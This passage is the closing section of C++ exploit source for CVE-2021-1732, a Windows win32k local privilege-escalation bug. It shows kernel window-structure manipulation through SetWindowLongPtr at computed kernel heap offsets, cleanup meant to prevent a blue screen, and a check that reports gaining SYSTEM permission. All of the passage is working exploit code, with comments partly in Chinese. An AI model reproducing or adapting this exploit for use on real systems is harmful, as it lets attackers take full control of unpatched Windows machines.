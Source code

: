 ```cpp
    }
    // end of 12
 
    // 13. Recovery bug(恢复内存结构，防止蓝屏)
    g_dwpWndKernel_heap_offset2 = *(ULONG_PTR*)((PBYTE)pWnd2 + g_dwKernel_pWnd_offset);
    ULONG_PTR dwpWnd0_to_pWnd2_kernel_heap_offset = *(ULONGLONG*)((PBYTE)g_pWnd[0] + 0x128);
    if (dwpWnd0_to_pWnd2_kernel_heap_offset < g_dwpWndKernel_heap_offset2) {
        dwpWnd0_to_pWnd2_kernel_heap_offset = (g_dwpWndKernel_heap_offset2 - dwpWnd0_to_pWnd2_kernel_heap_offset);
 
        DWORD dwFlag = *(ULONGLONG*)((PBYTE)pWnd2 + g_dwModifyOffsetFlag_offset);
        dwFlag &= ~0x800;
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd2_kernel_heap_offset + g_dwModifyOffsetFlag_offset, dwFlag);  //Modify remove flag
 
        PVOID pAlloc = g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, g_dwMyWndExtra);
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd2_kernel_heap_offset + g_dwModifyOffset_offset, (LONG_PTR)pAlloc);  //Modify offset to memory address
 
 
        ULONGLONG ululStyle = *(ULONGLONG*)((PBYTE)g_pWnd[1] + g_dwExStyle_offset);
        ululStyle |= 0x4000000000000000L;//WS_CHILD
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  //Modify add style WS_CHILD
 
        ULONG_PTR pMyMenu = SetWindowLongPtr(g_hWnd[1], GWLP_ID, (LONG_PTR)pSPMenu);
        //free pMyMenu
 
        ululStyle &= ~0x4000000000000000L;//WS_CHILD
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  //Modify Remove Style WS_CHILD
 
        std::cout << "Recovery bug prevent blue screen." << std::endl;
    }
    // end of 13
 
    DestroyWindow(g_hWnd[0]);
    DestroyWindow(g_hWnd[1]);
    DestroyWindow(hWnd2);
     
    if (pSystemEProcess != NULL) {
        std::cout << "CVE-2021-1732 Exploit success, system permission" << std::endl;
    }
    else {
        std::cout << "CVE-2021-1732 Exploit fail" << std::endl;
    }
    system("pause");
 
    return (int)0;
}
```
